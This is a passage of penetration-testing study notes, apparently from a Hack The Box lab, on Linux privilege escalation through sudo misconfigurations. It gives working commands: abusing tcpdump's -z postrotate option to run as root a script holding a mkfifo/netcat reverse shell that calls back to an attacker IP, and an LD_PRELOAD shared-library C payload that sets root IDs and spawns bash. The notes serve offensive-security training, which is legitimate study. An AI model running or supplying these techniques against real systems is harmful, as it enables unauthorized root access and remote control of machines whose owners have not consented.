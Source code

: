     ```bash
    sudo -l
    ```
    
    ```bash
    cat /etc/sudoers
    ```
    
  * **Ex → tcpdump:**
    ```bash
    sudo -l
    '
    User htb-student may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/tcpdump
    '
    ```

    * **tcpdump with -z, tcpdump has the -z flag:** **`-z postrotate-command`** Allows executing an external command after rotating a ***.pcap*** file. If we control the value of **-z**, we can execute any script or command as root.

    * On our terminal we open a Listener:
    **`nc -lvnp 4444`**

    On the target:

    ```bash
    echo 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <IP> 443 > /tmp/f' > /tmp/.test
    chmod +x /tmp/.test
    ```

    ```bash
    sudo /usr/sbin/tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
    ```

    * **`-i eth0`** 	Interface to listen on
    * **`-w /dev/null`**	Output file (discarded)
    * **`-G 1`**	Rotate every 1 second
    * **`-W 1`**	Only 1 file
    * **`-z script`**	Command to be executed on rotate
    * **`-Z root`**	Run as root

  ---

  * **Ex → LD_PRELOAD:**

    *  If we get **PRELOAD** in the response (**`env_keep+=LD_PRELOAD`)**.
    * environment variable that allows loading custom shared libraries before the program's standard libraries. This can be exploited to execute arbitrary code with elevated privileges.
    * After that, we write **`shell.c`** that elevates privileges:

      ```c
      #include <stdio.h>
      #include <sys/types.h>
      #include <stdlib.h>

      void _init() {
      unsetenv("LD_PRELOAD");
      setgid(0);
      setuid(0);
      system("/bin/bash");
      }
      ```
